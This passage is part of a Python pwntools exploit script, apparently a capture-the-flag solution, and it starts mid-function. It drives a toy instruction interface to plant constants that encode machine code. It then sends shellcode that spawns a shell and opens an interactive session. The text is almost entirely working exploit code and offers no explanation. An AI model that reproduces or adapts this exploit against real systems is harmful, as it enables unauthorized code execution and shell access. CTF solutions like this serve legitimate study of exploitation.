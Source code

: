 ```python: exploit.py
    io.sendlineafter(b'operand: ', ('r%d'%(i)).encode())

def dbl(i: int):
    io.sendlineafter(b'opcode: ', str(4).encode())
    io.sendlineafter(b'operand', ('r%d'%(i)).encode())

def addi(num: hex):
    io.sendlineafter(b'opcode: ', str(5).encode())
    io.sendlineafter(b'operand', ('#%d'%(num)).encode())

def add(i: int):
    io.sendlineafter(b'opcode: ', str(6).encode())
    io.sendlineafter(b'operand: ', ('r%d'%(i)).encode())

load(0x92f78748)
mov(3)

load(0xe6ff050f)
mov(2)

load(0xe7ff0000)
mov(1)

for i in range(16):
    dbl(1)

addi(0x28c88348)
add(0)

io.send(asm(shellcraft.sh()))

io.interactive()
```






